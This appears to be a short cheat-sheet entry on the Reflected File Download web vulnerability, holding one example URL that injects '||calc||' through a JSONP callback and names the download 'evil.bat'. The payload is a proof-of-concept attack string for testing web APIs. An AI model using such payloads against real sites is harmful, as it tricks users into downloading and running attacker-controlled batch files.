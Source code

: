 # Reflected File Download  

Example:  
```
http://example.com/api;/evil.bat;?callback=||calc||
```  
